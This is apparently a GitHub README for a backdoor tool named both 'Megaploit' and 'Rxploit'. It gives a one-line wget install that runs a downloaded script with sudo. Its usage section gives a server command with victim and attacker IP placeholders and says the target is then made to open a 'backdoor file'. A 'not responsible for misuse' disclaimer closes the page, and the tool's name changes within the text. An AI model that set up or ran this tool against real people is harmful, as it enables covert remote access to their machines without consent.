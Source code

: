 The Rxploit is released under a GNU GPL3 license.
[LICENSE](https://github.com/JosephFrankFir/Megaploit/blob/main/LICENSE).

Bug tracking and development information can be found
at: [Click me](https://github.com/JosephFrankFir/Megaploit/issues)

### Easy Install
```bash
wget http://github.com/JosephFrankFir/Megaploit/blob/main/install.sh
chmod +x ./install.sh
sudo ./install.sh
```

### Installing

Generally, you have to install python3 and pip, which Rxploit based on. See the Dev Environment Setup if you'd like to
deal with dependencies on your own.

### Using Megaploit

Rxploit can do all sorts of things. The first thing you'll want to do
is ```python3 server.py -rh *victim ip* -lh *your ip* -p *port*```, but after that, you'll probably let target open the backdoor file.

### Contributing

See the Dev Environment Setup guide on GitHub, which will walk you through the whole process from installing all the
dependencies, to cloning the repository, and finally to submitting a pull request. For slightly more information, see
Contributing.

### Warning

We are not responsible for any misuse or damage caused by this program. use this tool at your own risk!
